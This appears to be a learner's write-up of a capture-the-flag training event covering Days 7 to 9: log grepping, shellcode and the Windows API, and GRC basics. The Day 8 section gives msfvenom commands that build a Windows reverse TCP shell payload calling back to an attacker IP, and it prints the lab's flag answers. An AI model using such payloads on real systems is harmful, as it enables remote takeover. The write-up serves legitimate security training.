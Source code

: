 ```bash
grep INSERT rds.log
```

to look(or `grep`) for the word "INSERT" from the logs to extract information about this.

![Pasted image 20241208101830](https://github.com/user-attachments/assets/bebf8749-e556-425b-baef-eb01effe5ee1)


The first few transactions are to the right bank account, but towards the bottom we see that they have been meddled with and now lead to `mayor_malware`'s bank account number which is 

9. `2394 6912 7723 1294`

# Day 8

**New Things Learnt**
* **ShellCode**: A piece of code that's used by attackers to sneak in exploits such as buffer overflows to inject commands into a vulnerable system. ShellCode is typically written in Assembly.
* **Windows API** (Windows Application Programming Interface) allows programs to interact with the OS, giving them access to essential system level functions such as memory management and file operations. They act as a bridge b/w the application and the OS.

As usual, we follow some instructions and end up in a terminal with the command 

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell
```

where **ATTACKBOX_IP** is obviously our own unique AttackBox IP.

In this case, we're creating a reverse shell for a windows machine, by following a bunch of instructions. 

Now, coming to the question, we're going to follow the same instructions but with a different port `4444` 

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.194.154 LPORT=4444 -f powershell
```

After we gain remote access to the Virtual Machine, all we have to do is use the provided command `type C:\Users\glitch\Desktop\flag.txt` and we should see this

![Pasted image 20241208230449](https://github.com/user-attachments/assets/2f60190e-25f0-431d-af10-94a7ca9044ef)


 1. The flag is `AOC{GOT_MY_ACCESS_B@CK007}`


# Day 9

**New Things Learnt**
* Introduction to GRC (Governance, Risk and Compliance) is an organizational strategy to manage governance and risks while maintaining compliance with industry and government regulations.
* Basic Risk Assessment: **Identification of Risks**, ﻿**Assigning Likelihood to Each Risk**, **Assigning Impact to Each Risk**, **Risk Ownership**, 
